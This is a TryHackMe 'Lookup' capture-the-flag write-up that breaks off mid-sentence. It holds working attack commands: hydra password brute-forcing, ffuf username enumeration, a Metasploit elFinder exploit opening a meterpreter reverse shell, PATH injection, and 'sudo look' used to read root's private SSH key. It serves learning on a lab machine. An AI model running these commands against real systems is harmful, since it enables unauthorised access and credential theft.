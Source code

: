 
TryHackMe - Lookup (Easy)
Reconnaissance: I started with standard scanning:

sudo nmap -sC -sV -oN lookup.thm xxxx Open ports:

22 (SSH)

80 (HTTP)

I opened the website — there was a login form. I first tried admin:admin. The login worked, but the password was incorrect, which meant the username exists.

I immediately ran Hydra to brute-force the password:

hydra -l admin -P /usr/share/wordlists/rockyou.txt xxxx http-post-form “/login.php:username=USER&password=PASS:Incorrect” The result was empty.

Then I decided to check other users using ffuf:

ffuf -u http://xxxx/login.php -d “username=FUZZ&password=test” -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt -X POST -H “Content-Type: application/x-www-form-urlencoded” -mc 200 Found a second user: jose.

Gaining Access Brute-forcing the password for jose:

hydra -l jose -P /usr/share/wordlists/rockyou.txt xxxx http-post-form “/login.php:username=USER&password=PASS:Incorrect” Password found: jose:password123.

After logging in, the system suggested adding a new host:

echo “xxxx files.lookup.thm” | sudo tee -a /etc/hosts Went to http://files.lookup.thm and saw the elFinder file manager. Checked its version and found an exploit using searchsploit elfinder.

In msfconsole, I used the module:

msfconsole use exploit/multi/http/elfinder_php_connector_exec set RHOSTS xxxx set TARGETURI /elfinder/php/connector.minimal.php set payload php/meterpreter/reverse_tcp set LHOST tun0 run Gained access as www-data.

Privilege Escalation — Switching to user think Ran linpeas.sh:

./linpeas.sh It showed the binary pwm running as root, which calls id and saves the output to ~/.passwords.

Tried a PATH injection:

echo “id_think” > /tmp/id chmod +x /tmp/id export PATH=/tmp:$PATH After running the binary, I found the password for user think in ~/.passwords.

Logged in:

su think This step was tricky but helped understand how PATH injection can reveal passwords.

Privilege Escalation — Root Checked sudo privileges:

sudo -l It turned out that think can run the binary look as root.

On GTFOBins, I found a way to use it to read files:

sudo look ‘’ /root/.ssh/id_rsa Copied the root key, saved it:

nano id_rsa chmod 600 id_rsa ssh -i id_rsa root@xxxx Gained root access.

Additional Attempts I tried CVE-2021-3560 (mentioned in linpeas report), but it didn’t work. The main working path was through look and the root private key.

New Knowledge and Commands ffuf has special user lists.

For brute-force, it’s important to specify the exact file, e.g., login.php.

Practical experience with PATH injection via export PATH=/tmp:$PATH.

Experience with sudo -l and GTFOBins.

Using private keys to gain root access via SSH.

Conclusion Managed to complete the machine:

Reconnaissance: nmap, ffuf, hydra Exploitation: elFinder via msfconsole Privilege Escalation: PATH injection → user think Privileges: sudo look → root via SSH key

Although there were challenges (especially understanding PATH injection and password brute-forcin
